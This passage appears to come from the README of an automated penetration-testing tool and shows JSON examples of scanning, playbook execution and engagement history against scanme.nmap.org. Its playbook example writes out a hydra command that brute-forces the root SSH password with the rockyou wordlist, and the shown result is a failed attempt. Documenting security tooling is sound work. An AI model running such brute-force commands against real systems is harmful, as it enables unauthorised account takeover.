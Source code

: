 ![Analysis Results](screenshots/2.jpeg)

---

### 2. 🧪 Playbook Execution

**Input:**
```json
{
  "playbook_id": "ssh_bruteforce",
  "commands": [
    "hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://scanme.nmap.org"
  ]
}
```

**Output:**
```json
{
  "success": true,
  "output": [
    {
      "command": "hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://scanme.nmap.org",
      "success": false,
      "output": "[ERROR] Connection closed by remote host"
    }
  ],
  "learned_patterns": {
    "ssh_pattern": "SSH brute force attempted"
  }
}
```

![Execution Results](screenshots/4.jpeg)

---

### 3. 📚 Engagement History

**Request:** `GET /engagements`  
**Output:**
```json
[
  {
    "id": "eng_20231025_143022",
    "target": "scanme.nmap.org",
    "timestamp": "2023-10-25T14:30:22.54321",
    "tech_stack": {
      "services": [
        {"port": "22", "name": "ssh", "product": "OpenSSH"},
        {"port": "80", "name": "http", "product": "Apache"}
      ]
    },
    "results": [
      {
        "playbook_id": "ssh_bruteforce",
        "name": "SSH Bruteforce",
        "confidence": 0.78
      }
    ]
  }
]
```
